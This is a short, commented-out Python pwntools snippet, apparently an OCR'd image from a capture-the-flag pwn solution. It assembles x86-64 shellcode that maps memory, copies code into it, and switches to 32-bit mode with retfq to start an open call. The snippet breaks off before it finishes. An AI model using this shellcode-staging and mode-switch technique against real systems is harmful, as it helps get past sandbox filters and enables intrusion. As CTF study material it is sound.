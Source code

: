 ```python
# # eip rip cs:ip
# # retfq ->cs位0x23 ip

# # mov rax,[rbp+24]
# # add rax,80
# # jmp rax
# # 0x11451404d ->0x14514000 57次
# # 

# # b *0x114514061 

# shellcode = asm('''
# mov r9d,0x0
# mov r8d,0xffffffff
# mov ecx,0x22
# mov edx,0x7
# mov esi,0x1000
# movabs rax,0x14514000
# mov rdi,rax 
# mov rax,[rbp+24]
# sub rax,647
# call rax
# ''',arch="amd64")
# # 将内容赋值过去

# shellcode += asm(
# '''
# mov rsi,0x11451406a; 
# mov rdi,0x14514000;
# mov rcx,456     

# copy_loop:
#   cmp rcx, 0
#   je end_copy                 ; 
#   mov al, [rsi]               ; 
#   mov [rdi], al               ; 
#   inc rsi                     ; 
#   inc rdi                     ; 
#   dec rcx                     ; 
#   jmp copy_loop               ; 

# end_copy:
#     mov rax,0x14514000
#     jmp rax
# '''
# ,arch="amd64")
# # 转化为32位
# shellcode +=asm(
# '''
# push 0x23
# push 0x14514009
# retfq
# '''
# ,arch="amd64")
# # 构造栈
# shellcode += asm(
# '''
# mov esp,0x14514400
# mov ebp,0x14514420
# '''
# ,arch="i386")
# # 调用open函数
# shellcode += asm(
```